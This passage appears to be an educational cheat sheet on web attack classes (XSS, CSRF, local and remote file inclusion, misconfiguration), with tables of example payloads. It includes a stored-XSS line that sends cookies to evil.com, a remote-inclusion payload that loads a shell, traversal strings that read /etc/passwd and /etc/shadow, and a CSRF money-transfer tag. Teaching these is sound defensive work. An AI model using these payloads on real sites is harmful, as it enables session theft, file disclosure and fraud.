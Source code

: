 
### 💉 2. **Cross-Site Scripting (XSS)**

> Injects malicious JS into a trusted site.

| Type              | Example Payload                                                                     | Description                   |
| ----------------- | ----------------------------------------------------------------------------------- | ----------------------------- |
| **Reflected XSS** | `?q=<script>alert(1)</script>`                                                      | In URL, triggers in response. |
| **Stored XSS**    | Post a comment: `<script>fetch('http://evil.com?cookie='+document.cookie)</script>` | Stored in DB.                 |
| **DOM-based XSS** | `#<img src=x onerror=alert(1)>`                                                     | Triggers via client-side JS.  |

---

### 🌀 3. **Cross-Site Request Forgery (XSRF/CSRF)**

> Tricks users into performing actions unknowingly.

| Type              | Example Scenario                           | Malicious Code                                                 |
| ----------------- | ------------------------------------------ | -------------------------------------------------------------- |
| **CSRF via GET**  | Auto-transfer money when user clicks image | `<img src="https://bank.com/transfer?amount=10000&to=hacker">` |
| **CSRF via POST** | Submits a hidden form from attacker site   | Auto-submitting HTML form targeting user session.              |

---

### 🗂️ 4. **File Inclusion (LFI / RFI)**

> Includes unintended files in web apps.

| Type                            | Example Payload                  | Description                                  |
| ------------------------------- | -------------------------------- | -------------------------------------------- |
| **Local File Inclusion (LFI)**  | `page=../../../../etc/passwd`    | Reads local system files.                    |
| **Remote File Inclusion (RFI)** | `page=http://evil.com/shell.txt` | Executes remote malicious code (PHP mostly). |
| **Null Byte Injection**         | `?file=../../etc/passwd%00.php`  | Bypasses file extension filter (older PHP).  |

---

### 🔓 5. **Web Security Misconfiguration**

> Weak defaults, verbose errors, insecure files exposed.

| Type                         | Example / Symptom                 | Description                                   |
| ---------------------------- | --------------------------------- | --------------------------------------------- |
| **Directory Traversal**      | `../../../etc/shadow`             | Reads unauthorized files.                     |
| **Exposed Admin Interfaces** | `/admin`, `/phpmyadmin`           | Access to restricted pages.                   |
| **Verbose Error Messages**   | `?id='` → `SQL syntax error`      | Leaks tech stack or DB structure.             |
| **Default Credentials**      | `admin/admin` on login page       | Forgotten default passwords.                  |
| **Open Directories**         | `http://site.com/uploads/`        | Lists sensitive or uploaded files.            |
| **Missing Security Headers** | No `X-Frame-Options`, `CSP`, etc. | Vulnerable to clickjacking, script injection. |

---
